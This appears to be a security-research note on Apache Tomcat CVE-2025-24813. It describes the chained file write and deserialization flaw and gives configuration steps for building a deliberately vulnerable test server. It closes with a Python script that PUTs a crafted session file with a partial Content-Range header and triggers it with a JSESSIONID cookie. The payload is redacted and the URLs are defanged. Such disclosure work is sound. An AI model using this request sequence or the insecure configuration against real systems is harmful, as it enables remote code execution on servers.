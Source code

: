 # 2025-03-14 (Friday): Testing CVE-2025-24813

## Author

- Yiheng An

## References

- `[Unit 42 LinkedIn social media post]`
- `[Unit 42 X social media post]`

## Original References

- https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq
- https://nvd.nist.gov/vuln/detail/CVE-2025-24813
- https://scrapco.de/blog/analysis-of-cve-2025-24813-apache-tomcat-path-equivalence-rce.html

## Versions Affected

- Apache Tomcat 11.0.0-M1 to 11.0.2
- Apache Tomcat 10.1.0-M1 to 10.1.34
- Apache Tomcat 9.0.0.M1 to 9.0.98

## Notes

CVE-2025-24813 is a recently announced vulnerability for Apache Tomcat. Apache is an open-source web server platform, and Tomcat is software that allows Apache web servers to run Java servlets.

Exploiting this vulnerability consists of two steps:

1. Arbitrary file writing
2. Insecure deserialization

####  Arbitrary File Writing

When session persistence is enabled in Tomcat, the server will serialize all active user sessions before shutting down. Upon restarting, Tomcat will deserialize these sessions, allowing user sessions to remain active without users being aware of the server restart. 

However, if the HTTP PUT method in Tomcat is enabled, files uploaded via HTTP PUT requests may be cached in the same directory where serialized session data is stored. On a vulnerable web server, an attacker might be able to exploit CVE-2025-24813 to save malicious files to the serialized session data directory.

#### Insecure Deserialization

After saving a malicious file to the directory for serialized session data. An attacker could use a crafted cookie to "wake up" a session. This could potentially trigger Tomcat to deserialize a maliciously crafted session file, allowing exploitation through deserialization vulnerabilities

## Testing an Exploit 

We successfully tested an exploit for CVE-2025-24813 on an Apache web server running an outdated version of Tomcat with an outdated version of Java.

Note: All URLs below have been de-fanged.

#### Test Environment

- Ubuntu 24 Server
- Apache-Tomcat 9.0.90
  - hxxps[:]//archive.apache[.]org/dist/tomcat/tomcat-9/v9.0.90/bin/apache-tomcat-9.0.90.zip
- Java 8.0.442-zulu
- Some depdendencies
  - hxxps[:]//repo1.maven[.]org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
  - htxxps[:]//repo1.maven[.]org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar

#### Establishing a Vulnerable Tomcat Configuration

1. Enable PUT

   Edit `tomcat/conf/web.xml` to add a `readonly` parameter under the `default` servlet name section and set it to `false`. An example is shown below near the end of the code.

   ```xml
       <servlet>
           <servlet-name>default</servlet-name>
           <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
           <init-param>
               <param-name>debug</param-name>
               <param-value>0</param-value>
           </init-param>
           <init-param>
               <param-name>listings</param-name>
               <param-value>false</param-value>
           </init-param>
           <init-param>
             <param-name>readonly</param-name>
             <param-value>false</param-value>
           </init-param>
           <load-on-startup>1</load-on-startup>
       </servlet>
   ```

2. Enable Session persistence

   Edit `/tomcat/conf/content.xml` and add the following setting.

   ```xml
       <Manager className="org.apache.catalina.session.PersistentManager">
         <Store className="org.apache.catalina.session.FileStore" />
       </Manager>
   ```

3. Using the following commands, create a directory at `/tomcat/webapps/ROOT/WEB-INF/lib` and place two outdated dependencies within it.

   ```
   mkdir ./tomcat/webapps/ROOT/WEB-INF/lib && cd ./tomcat/webapps/ROOT/WEB-INF/lib
   wget hxxps[:]//repo1.maven[.]org/maven2/commons-logging/commons-logging/1.2/commons-logging-1.2.jar
   wget hxxps[:]//repo1.maven[.]org/maven2/commons-beanutils/commons-beanutils/1.9.4/commons-beanutils-1.9.4.jar
   ```

#### Exploit

We used [Java Chains](https://github.com/vulhub/java-chains) to create a specially crafted session file and send it to a temporarily vulnerable web server running Apache Tomcat at `www.wiresharkworkshop[.]online`. Below is an example of Python script used for this purpose. The malicious session file is named `gopan.session` but can be changed to any name.

```python
import requests
import base64
import os

TARGET_IP = "hxxp[:]//www.wiresharkworkshop[.]online:8080/"

# b64_encoded_payload = "****[information redacted]****"

output_file_path = "decoded_chain.bin"
decoded_content = base64.b64decode(b64_encoded_payload)

with open(output_file_path, "wb") as f:
    f.write(decoded_content)

put_url = f"{TARGET_IP}/gopan.session"
put_headers = {"Content-Range": "bytes 0-5/100"}

with open(output_file_path, "rb") as f:
    put_response = requests.put(put_url, data=f, headers=put_headers)
os.remove(output_file_path)

get_url = f"{TARGET_IP}/"
get_headers = {"Cookie": "JSESSIONID=.gopan"}
get_response = requests.get(get_url, headers=get_headers)
```
